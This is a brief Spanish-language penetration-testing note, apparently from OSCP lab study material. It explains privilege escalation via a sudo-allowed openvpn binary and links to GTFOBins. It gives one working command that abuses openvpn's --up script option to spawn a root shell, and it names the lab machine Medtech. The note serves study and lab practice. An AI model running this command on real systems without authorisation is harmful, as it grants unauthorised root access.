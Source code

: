 ## DESCRIPTION

Escalada de privilegios si podemos ejecutar con "sudo" el programa openvpn

![[Pasted image 20230411180207.png]]

#### Mas información
* https://gtfobins.github.io/gtfobins/openvpn/


## EXPLOITATION

```
sudo openvpn --dev null --script-security 2 --up '/bin/sh -c sh'
```

## MACHINES

* OSCP LABS: Medtech
